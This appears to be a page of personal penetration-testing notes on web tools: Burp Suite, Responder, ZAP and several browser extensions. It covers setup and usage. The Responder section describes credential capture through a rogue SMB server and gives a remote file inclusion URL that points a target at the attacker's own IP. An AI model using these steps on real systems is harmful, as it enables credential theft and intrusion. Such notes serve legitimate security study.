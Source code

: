 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tools

## <mark style="color:green;">Burp Suite</mark>

* Digital plattform that collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.&#x20;
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.

### Configure

#### Proxy

* We required the _FoxyProxy_ extension
* Create a proxie profile on FoxyProxy specifying IP 127.0.0.1 and PORT 8080
* Select the profile on the extension
* Then go to burpsuite proxy tab and set intercept to _on_
* Go to _proxy settings_ to the _Response Interception_ part and mark _Intercept responses_ and _Or Request was intercepted_

#### Define scope

* Go to target tab
* On left side select the IP/Domain
* Right-click it and select _add to scope_
* Then go to _proxy settings_ on proxy tab
* Go to the _Request Interception_ part and mark _And url is in target scope_

#### Configure HTTPS proxy

* Activate proxy and go to [http://burp/cert](http://burp/cert) on browser
* Download _cacert.der_ file
* Go to _about:preferences_ on browser
* Search _Cetificates_ and select _View Certificates_
* Click on Import and selct the cacer.der
* Mark _Trust this CA to indetify websites_ and save all

#### Hotkeys

* **Ctrl + R:** Send petition to Repeater
* **Ctlr + U:** URL encode selected text



## <mark style="color:green;">Responder</mark>

* Help in passive obtention of credentials by mounting a SMB server in web

### Commands

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If ypu get error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>http://$url/$query?$value=//$myip/somefile
</strong></code></pre>

***



## <mark style="color:green;">ZAP</mark>

* Proxy utility stands for Zed Attack Proxy

### **Features**

* **Contexts:** Delimit the scope of the scanning
* **Spider:** Use spidering to get links in the code of a website
* **Active scan:** Attacks the website to get more information
* **Alerts:** Give vulnerabilities found on the web site
* **Sites:** Shows all the URL spidered with their petitions and vulnerabilities
* **History:** Shows petitions made to the site

### **Configuration and utilities**

* Install _SwitchyOmega_ extension
* Configure server to _localhost_ and save changes
* Go to _adds-on_ tab and from marletplace install: _all release, python scripting, community scripts, custom payloads, json view, jwt support, viewstate_.
* Go to settings HUD deactivate _Using ZAP desktop and welcome message._

### Tips

* Can configure Global Alert Filters to set your own grade for a vulnerability.
* From _History_ you can right click and select _Resend_ to modify a petition made before
* **For fuzzing:**&#x20;
  * Select a part of the request and right-click _Fuzz_&#x20;
  * Select _Payloads_ button, select dictionary file or enter custom words
  * In _Message Proccesor_s tab add a new one for exclude errors that arent meaningful
  * In Global Settings go to _Anti-CSRF cert token_, an add the tokens detected in forms POST petitions
  * When getting 304 responses in _Fuzz->Options_ activate _Follow Redirects_
  * When not getting consistent token handle in _Fuzz->Options_ reduce the threads to 1

### Commands

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install zaproxy
```
{% endcode %}

***



## <mark style="color:green;">Hacktools</mark>

* Browser extension that help us with scripts, commands and tips for web attacks
* [https://addons.mozilla.org/en-US/firefox/addon/hacktools/](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)

### **Features**

* Reverse shell scripts
* PHP reverse shell scripts
* TTY Spawn shell
* Linux commands
* Powershell commands
* Windows file transfer methods
* Local File Inclusion
* Cross-Site Scripting
* SQL Injection
* Data Encoding
* Obfuscated Files or Information
* Hash generator
* MSF Venom Builder



## <mark style="color:green;">FoxyProxy</mark>

* Browser extension that help us creating proxies, usually for request-response analysis
* [https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)



## <mark style="color:green;">Wappalyzer</mark>

* Browser extension that help us sending anonymous information about websites visited, including domain name and identified technologies.
* [https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)

